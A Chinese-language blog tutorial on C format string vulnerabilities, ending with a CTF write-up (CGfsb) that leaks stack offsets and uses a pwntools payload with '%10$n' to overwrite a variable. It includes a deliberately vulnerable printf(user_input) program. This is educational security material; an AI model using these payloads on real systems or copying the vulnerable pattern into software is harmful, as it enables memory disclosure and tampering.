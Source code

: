 ```yaml
---
layout: post
title:  "格式化字符串漏洞"
date:   2023-09-10 00:00:00 +0800
categories: 安全
tags: pwn format-string
comments: true
mathjax: true
copyrights: 原创
---
```


在 C 语言中，`printf` 函数的定义如下：

```c
int printf(const char *format, ...)
```

可以看到，`printf` 函数只有第一个参数是必须的，剩下都是可选的参数，编译器也不会检查参数个数是否正确。因此下面的代码也是正确的：

```c
printf("%d %d", a);
printf("%d");
```

这里我直接拿之前做的 slides 演示一下这一过程。

假设我们要运行正常的 `printf` 语句

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b, &c);
```

程序会首先按照下图的方式把 `printf` 函数的参数压入栈中。当遇到第一个 `%d` 时，`printf` 函数内部的指针会向高地址移动，读取传入的参数：

<img src="/assets/post/images/formatstring1.png" alt="formatstring1" style="zoom: 40%;" />

遇到第二个 `%d` 后，会继续移动：

<img src="/assets/post/images/formatstring2.png" alt="formatstring2" style="zoom:40%;" />

遇到 `%08x` 后，会继续移动：

<img src="/assets/post/images/formatstring3.png" alt="formatstring3" style="zoom:40%;" />

至此，成功执行了这个函数。

那如果我少传入了一个参数呢？也就是运行

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b);
```

此时，在遇到前两个 `%d` 时，和之前是一样的。但当读取到 `%08x` 时，指针继续向高地址移动，这时指针指向的已经不是我的参数，而是栈中的其它字节了！

<img src="/assets/post/images/formatstring4.png" alt="formatstring4" style="zoom:40%;" />

`printf` 可不会去检查我传入的参数够不够、指针指向的是什么东西，它只会直接输出。这就给了我们可乘之机！

在攻击之前，我们先复习一下 `format` 中常用的占位符：

| 符号 | 含义                          | 传递方式 |
| :--: | ----------------------------- | :------: |
| `%d` | 10 进制数                     |    值    |
| `%x` | 16 进制数                     |    值    |
| `%p` | 指针地址                      |    值    |
| `%s` | 字符串                        |   引用   |
| `%n` | 到目前位置输出的字符 bytes 数 |   引用   |

下面我们考虑几种攻击形式：

- ```c
  printf ("%s%s%s%s%s%s%s%s%s");
  ```

  此时程序会把指针指向的内容作为地址读取，并到该地址读取字符串。

  然而，指针指向的内容很可能不是个地址，然后导致程序崩溃。

- ```c
  printf ("%08x %08x %08x %08x");
  ```

  这样的代码可以用于查看内存。为了更方便理解，我们考虑下面的程序：

  ```c
  int main(int argc, char *argv[])
  {
     char user_input[100];
     scanf("%s", user_input); /* getting a string from user */
     printf(user_input);      /* Vulnerable place */
     return 0;
  }
  ```

  当输入 `\x11\x45\x14\x00 %x %x %x %x %s` 时，其内存栈如图所示：

  <img src="/assets/post/images/formatstring5.png" alt="formatstring5" style="zoom:40%;" />

  由于 `printf` 输出的是 `user_input`，因此 `printf` 自己的内部指针会从 `user_input` 的地址 + 1 处开始读取。而 `user_input` 的具体内容存储在地址更高的地方，我们的 4 个 `%x` 使得指针移动过了无意义的部分，最终指向了我们自己输入的 `0x11451400`，而此时的 `%s` 会直接输出地址 `0x11451400` 中的内容。
  
  当然，这里为了方便起见，我们假设 `user_iput` 的实际内容就存储在其地址 + 5 的位置，因此使用了 4 个 `%x` 来跳过无意义的部分。在实际操作中，我们需要根据实际情况来取得地址偏移。
  
  如此一来，我们可以看到内存中任意位置的内容。
  
- ```c
  printf (“114514%n", &i);
  ```

  正如前文所述，`%n` 表示的是已经输出了多少个 bytes。通过这种方法，我们可以向内存中写入任意数据。

下面，我们以攻防世界 CGfsb 为例进行实操。

扔进 ida 可以提取到

```c
puts("leave your message please:");
fgets(s, 100, stdin);
puts("your message is:");
printf(s);
if ( pwnme == 8 )
{
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
}
else
{
    puts("Thank you!");
}
```

很容易看出，`printf(s)` 一句是存在漏洞的。我们的目标是将 `pwnme` 变量修改为 8。

- 我们的第一步是要确定地址偏移，也就是确定我们输入的 `s` 的内容距离 `s` 的地址存储的位置有多远。

  我们直接输入

  ```plaintext
  leave your message please:
  AAAA%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
  your message is:
  AAAAffb7929e-f7fa55a0-00f0b5ff-ffb792ce-00000001-000000c2-616148fb-0000000a-00000000-41414141-78383025-3830252d-30252d78
  ```

  这里可以看到我们输入的 `AAAA`（即 `41414141`）偏移了 10 个 bytes。也就是说，我们要让 `printf` 的内部指针移动 10 下才能移动到我们输入的内容的位置。

- 然后确定 `pwnme` 变量的位置。我们在 ida 中可以看到，其位置为 `0x0804A068`。

- 最后可以编写 POC 了。

  ```py
  from pwn import *
  
  p = process('./pwn')
  p.recvuntil("leave your message please:\n")
  payload = p32(0x804A068) + b'a' * 0x4 + b'%10$n'
  p.sendline(payload)

  p.interactive()
  ```

  这里注意的是，我们多填充了 4 个 a，目的是为了让 `pwnme` 计算得到 8。
